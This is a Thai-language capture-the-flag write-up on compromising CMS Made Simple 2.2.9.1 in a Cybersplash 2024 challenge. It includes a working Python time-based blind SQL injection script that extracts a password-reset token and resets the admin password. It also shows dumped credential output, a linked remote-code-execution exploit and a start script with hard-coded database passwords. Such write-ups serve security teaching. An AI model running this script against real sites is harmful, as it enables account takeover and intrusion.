


โจทย์จากงาน Cybersplash 2024 จัดโดย Sec Playground ครับ

เข้ามาในเว็บเราจะเห็นว่า เว็บนี้ใช้เป็น CMS Made Simple 2.2.9.1 ซึ่งถ้าเราไปดู [changelog 2.2.10](http://dev.cmsmadesimple.org/project/changelog/5813) (เป็นเวอร์ชั่นถัดไปของ 2.2.9.1) เราจะพบว่า มันได้แก้ไข unauthenticated SQL injection ไป งี้ก็หวานเจี๊ยบบ~

ผมก็เลยลองใช้ [exploit](https://www.exploit-db.com/exploits/46635) และ จะได้ผลลัพท์มาแบบนี้

```
[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c
```

~~ ซึ่งก็อกหัก crack ไม่ออก💔

เวลาได้ผ่านไปนานแสนนาน🕐

เพื่อนในทีมเลยให้ไอเดียมาว่า sqli ตัวนี้ใช้เป็น time based อาจจะพลาดได้ ผมเลยได้ลอง exploit ไปอีกหลายๆรอบ ผลลัพท์ก็ได้ออกมาเหมือนเดิม

```
[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c

[+] Salt for password found: b7605adc292329c2
[+] Username found: admin@secplayground.com
[+] Email found: admin@secplayground.com
[+] Password found: a876e3732ce1e64bafa81dbf65d1a83c
```

โอเคเหมือนกันหมด คงไม่ได้ให้ crack นั่นแหละ

ลืมไป คือ cms มันมีระบบ forgot password ซึ่งเมื่อเรากรอก username ไป มันจะไป generate changepassword token แล้วเก็บไว้ใน database😲

ซึ่งเราสามารถ sqli เพื่อไปเอา token นี้ได้ ก็เลยได้เป็น script นี้มา

```python
import requests
import time
from termcolor import cprint
import optparse
import re

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url", help="Base target uri (ex. http://10.10.10.100/cms)")

options, args = parser.parse_args()
if not options.url:
    print ("[+] Specify an url target")
    print ("[+] Example usage (no cracking password): exploit.py -u http://target-uri")
    print ("[+] Setup the variable TIME with an appropriate time, because this sql injection is a time based.")
    exit()

url_vuln = options.url + '/moduleinterface.php?mact=News,m1_,default,0'
session = requests.Session()
dictionary = '1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM@._-$'
flag = True
username="admin@secplayground.com"
TIME = 1
output = ""

def beautify_print_try(value):
    global output
    print ("\033c")
    cprint(output,'green', attrs=['bold'])
    cprint('[*] Try: ' + value, 'red', attrs=['bold'])

def beautify_print():
    global output
    print ("\033c")
    cprint(output,'green', attrs=['bold'])

def reset_pwd_stage1():
    d = {
        "forgottenusername" : username,
        "forgotpwform" : 1,
    }
    r = requests.post("%sadmin/login.php" % options.url, data=d)
    assert ("User Not Found" not in r.text), "(-) password reset failed!"

def reset_pwd_stage2(key):
    d = {
        "username" : username,
        "password" : username,      # just reset to the username
        "passwordagain" : username, # just reset to the username
        "changepwhash" : key,
        "forgotpwchangeform": 1,
        "loginsubmit" : "Submit",
    }
    r = requests.post("%sadmin/login.php" % options.url, data=d)
    match = re.search("Welcome: <a href=\"myaccount.php\?__c=[a-z0-9]*\">(.*)<\/a>", r.text)
    assert match, "(-) password reset failed!"
    assert match.group(1) == username, "(-) password reset failed!"

def dump_pwd_token():
    global flag
    global output
    reset_pwd_stage1()
    token = ""
    temp_token = ""
    ord_token = ""
    ord_token_temp = ""
    while flag:
        flag = False
        for i in range(0, len(dictionary)):
            temp_token = token + dictionary[i]
            ord_token_temp = ord_token + hex(ord(dictionary[i]))[2:]
            beautify_print_try(temp_token)
            payload = "a,b,1,5))+and+(select+sleep(" + str(TIME) + ")+from+cms_userprefs"
            payload += "+where+value+like+0x" + ord_token_temp + "25+and+user_id+like+0x31)+--+"
            url = url_vuln + "&m1_idlist=" + payload
            start_time = time.time()
            r = session.get(url)
            elapsed_time = time.time() - start_time
            if elapsed_time >= TIME:
                flag = True
                break
        if flag:
            token = temp_token
            ord_token = ord_token_temp
    flag = True
    output += '\n[+] Reset Token found: ' + token
    reset_pwd_stage2(token)

dump_pwd_token()

beautify_print()
```

แล้วก็็็็



แล้วผมก็ได้ไปเจอ exploit ตัวนี้ https://www.exploit-db.com/exploits/49345
สามารถ RCE ได้ครับพี่น้อง👁️

โอเค ผมเข้าถึงเครื่องได้แล้ว ผมก็ไปเจอ bash script ในเครื่อง ชื่อ start.sh

```bash
cat start.sh
#!/bin/sh

random_column=`date +%s | sha256sum | base64 | head -c 20 ; echo`
sed -i "s/\[\[RANDOM_COLUMN\]\]/$random_column/g" /var/flag.sql
sed -i "s/\[\[RANDOM_SECRET\]\]/$RANDOM_SECRET/g" /var/flag.sql
#sed -i "s/\[\[RANDOM_SECRET\]\]/$RANDOM_SECRET/g" /tmp/flag.txt
#randomname=`date +%s | sha256sum | base64 | head -c 5 ; echo`&& mv /tmp/flag.txt /tmp/flag_$randomname.txt

/etc/init.d/mysql restart && \
mysql --user=root -e "ALTER USER 'root'@'localhost' IDENTIFIED BY 'P@ssw0rdP@ssw0rd1234';flush privileges"


mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "CREATE DATABASE cms" && \
mysql --user=root --password="P@ssw0rdP@ssw0rd1234" -h127.0.0.1 cms < /var/flag.sql
mysql --user=root --password="P@ssw0rdP@ssw0rd1234" -h127.0.0.1 cms < /var/cms_dump.sql
rm /var/*.sql

### For cms user
mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "CREATE USER 'cmsms'@'localhost' IDENTIFIED BY 'P@ssw0rd1234';flush privileges"
mysql --user=root -h127.0.0.1 --password="P@ssw0rdP@ssw0rd1234" -e "GRANT ALL PRIVILEGES ON *.* TO 'cmsms'@'localhost' WITH GRANT OPTION;"

#/etc/init.d/nginx start
#/etc/init.d/php7.0-fpm start
/etc/init.d/apache2 start
/etc/init.d/mysql start

tail -F /dev/null
```

มันเก็บ flag ไว้ใน Database ครับ ผมก็เลย Dump Database ออกมาดูซะเลย



ได้ flag แล้วครับบ


### ???
ทำไม SQLi ได้แล้ว แล้วไม่ไปดึง flag ออกมาเลยล่ะ? ผมไม่รู้ว่า flag อยู่ใน db😭 เลยมุ่งไปที่ shell
